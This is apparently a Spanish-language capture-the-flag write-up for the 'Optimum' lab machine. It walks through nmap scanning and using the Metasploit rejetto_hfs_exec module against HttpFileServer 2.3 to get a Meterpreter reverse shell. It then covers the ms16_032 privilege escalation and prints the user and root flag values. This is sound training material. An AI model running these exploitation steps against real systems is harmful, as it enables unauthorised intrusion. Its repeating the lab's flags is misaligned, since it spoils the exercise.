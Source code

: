 
![[20250721114950.png]](optimum-images/20250721114950.png)

# Fase de reconocimiento


primero vamos a lanzar un escaneo de puertos sencillo con nmap 

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.129.180.214 -oG allPorts
```

una vez tenemos los puertos abiertos realizamos un segundo escaneo de nmap. En este caso lanzando scripts básicos para saber el servicio y la versión que corren por detras de cada puerto

```bash
nmap -p80 -sCV 10.129.180.214 -oN targeted
```

![[20250722094155.png]](optimum-images/20250722094155.png)

Aqui vemos el puerto 80 con servicio http y versión HttpFileServer httpd 2.3

# Metasploit 

abrimos la consola de metasploit

```bash
msfdb run
```

buscamos exploits derivados del servicio HttpFileServer

```bash
search HttpFileServer
```

![[20250722094422.png]](optimum-images/20250722094422.png)
Os dejo por aqui el exploit
```bash
exploit/windows/http/rejetto_hfs_exec
```

podemos activarlo poniendo 

```bash
use 0
```

ya que es el Id del exploit en la busqueda o

```bash
use exploit/windows/http/rejetto_hfs_exec
```

de esta forma llamamos directamente al exploit

en las opciones que veremos con el comando `options`

debemos cambiar los siguientes parámetros:

- RHOSTS - IP VICTIMA
- LHOST - NUESTRA IP
- LPORT - EL PUERTO QUE RECIBIRA LA SHELL EN NUESTRO EQUIPO 
		-(cambiar este parámetro es opcional pero hay veces que el puerto 4444 esta bloqueado en la ip victima por que es el que usa por defecto metasploit por lo que en ocasiones es recomendable cambiarlo)

>Para cambiar un parámetro usaremos siempre el comando

```bash
set PARAMETRO DATA
```

Por ejemplo:

```bash
set RHOSTS 10.129.180.214
```

una vez hemos cambiado todos los parámetros necesarios lanzamos el exploit

```bash
exploit
```

![[20250722095036.png]](optimum-images/20250722095036.png)

recibiremos una shell como meterpreter pero como empieza a ser costumbre ya no tendremos acceso a la carpeta administrador ni a muchas partes del sistema por lo que debemos conseguir esa escalada de privilegios

# Escalada de privilegios

lanzaremos este código que hará un escáner de vulnerabilidades interno en la maquina victima

```bash
run post/multi/recon/local_exploit_suggester
```

![[20250722095308.png]](optimum-images/20250722095308.png)

aqui nos recomendara varios exploits para realizar la escalada

ahora dejaremos la terminal de meterpreter suspendida para reutilizarla con el nuevo exploit

```bash
background
```

en mi caso utilizare el exploit:
> exploit/windows/local/ms16_032_secondary_logon_handle_privesc

```bash
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
```

una vez activo volvemos a poner el comando `options`  para ver que parámetros podemos cambiar, en este caso:

- SESSION - El NUMERO DE SESION DE METERPRETER QUE TENEMOS SUSPENDIDA 
	- podemos ver las sesiones poniendo el comando `sessions` (si habéis seguido los pasos del writeup será la 1) 
- LHOSTS - NUESTRA IP
- LPORT - PUERTO DONDE RECIBIREMOS LA SHELL

y lanzamos el exploit 

```bash
exploit
```

![[20250722095833.png]](optimum-images/20250722095833.png)

obtenemos la shell como meterpreter y ahora si con total privilegio

# Flags

## user

la flag se encuentra en el directorio: C:\Users\kostas\Desktop

![[20250722095957.png]](optimum-images/20250722095957.png)

user: 4ba9776b13b088debe39c37a2921a97e

## root

la flag se encuentra en el directorio: C:\Users\Administrator\Desktop

![[20250722100055.png]](optimum-images/20250722100055.png)

root: 828d9f5bc4d29e410f6425e17a9a2693
